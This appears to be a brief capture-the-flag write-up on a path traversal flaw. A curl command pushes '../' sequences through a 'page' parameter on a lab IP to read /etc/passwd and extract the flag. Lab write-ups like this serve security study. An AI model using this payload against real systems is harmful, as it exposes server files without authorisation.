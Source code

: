 # Exploit 09 - relative path

On the website routing is handled by the _page_ query parameter. We can try inserting relative paths to parent directories to find config files on the server.

```bash
curl -s -X GET "http://192.168.56.101/index.php?page=../../../../../../../../../etc/passwd" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
